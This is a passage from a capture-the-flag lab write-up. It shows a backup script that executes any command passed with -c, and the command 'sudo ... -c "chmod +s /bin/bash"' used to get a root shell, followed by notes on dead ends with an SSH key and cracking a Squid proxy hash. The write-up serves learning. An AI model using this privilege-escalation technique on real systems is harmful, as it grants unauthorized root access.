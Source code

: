 ```bash
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

- With some online help, I was able to discover that a `-c` argument can be added to the script, which will then pip the output to the `$cmd` variable. To grab a root shell, use the following syntax:

```bash
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

- Once done, we can navigate to the `root` directory and grab the `root.txt` flag. 
***Note: Make sure you are in the / directory before running the above or else it will not work.***

## Rabbit Holes
### Config
-  I tried to use the output of the `config` file in the archive to make an id rsa key since the output of the `key` field looked something like that. Unfortunately, that was a waste of time. However, it is important to note that, when using an id_rsa key to authenticate via SSH, change the permissions of the id_rsa file to 600 with `chmod 600 id_rsa`.

### Squid Proxy
- When I first uncovered the credentials, I thought they would lead me to some sort of configuration page via the Squid proxy. I did some googling around to try and find the hash format for the Squid proxy (which uses MD5, by the way), but the formats didn't match. I tried to crack that hash with [Crackstation](https://crackstation.net/), but never got anywhere.

